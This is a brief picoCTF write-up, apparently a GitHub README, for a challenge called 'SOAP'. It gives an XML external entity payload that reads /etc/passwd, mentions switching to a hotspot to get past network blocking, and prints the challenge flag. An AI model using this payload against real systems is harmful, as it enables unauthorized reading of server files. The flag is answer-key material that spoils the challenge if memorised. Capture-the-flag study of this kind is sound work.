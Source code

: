 # SOAP
# Fuck IBUS In A Nutshell

Ibus wasnt letting me perform xxe injection but when i connected to my hotspot, it allowed me to pass the xxe payload.

Used `<!DOCTYPE foo [ <!ENTITY example SYSTEM "/etc/passwd" > ]>` to get the response in Burp.

__Flag__:`picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}`

![Screenshot from 2024-11-10 17-42-21](https://github.com/user-attachments/assets/02f8786d-9c9f-43a9-b10a-02b751764a3a)



